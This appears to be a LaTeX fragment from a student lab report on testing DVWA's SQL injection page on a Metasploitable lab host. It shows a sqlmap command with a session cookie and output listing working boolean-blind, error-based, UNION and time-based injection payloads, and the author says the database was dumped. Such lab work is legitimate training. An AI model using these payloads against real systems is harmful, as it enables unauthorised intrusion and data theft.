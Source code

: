 \documentclass{article}
\begin{document}
\begin{figure}[h!]
	\includegraphics[width=\linewidth]{images/dvwa-sql-injection.png}
	\caption{SQL injection page.}
	\label{fig:sql-injection}
\end{figure}

\newpage
With a valid URL and Session cookie I can now use SQLMap to test out sql injection attacks.
I was able to get a dump of the database exported as csv files.

\begin{lstlisting}[language=Bash,basicstyle=\tiny]
\./sqlmap.py -u "http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=40ae620791b3658e5ee7eaaefbef49dc;" --tables
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4543=4543 AND 'qoRs'='qoRs&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=1' AND (SELECT 1602 FROM(SELECT COUNT(*),CONCAT(0x3a716a663a,(SELECT (CASE WHEN (1602=1602) THEN 1 ELSE 0 END)),0x3a6664633a,FLOOR(RAND(0)*2))x FROM INFORMATION_
SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lZPr'='lZPr&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' LIMIT 1,1 UNION ALL SELECT CONCAT(0x3a716a663a,0x4b574169554a4c62647a,0x3a6664633a), NULL#&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'QNHQ'='QNHQ&Submit=Submit
---
\end{lstlisting}
\end{document}

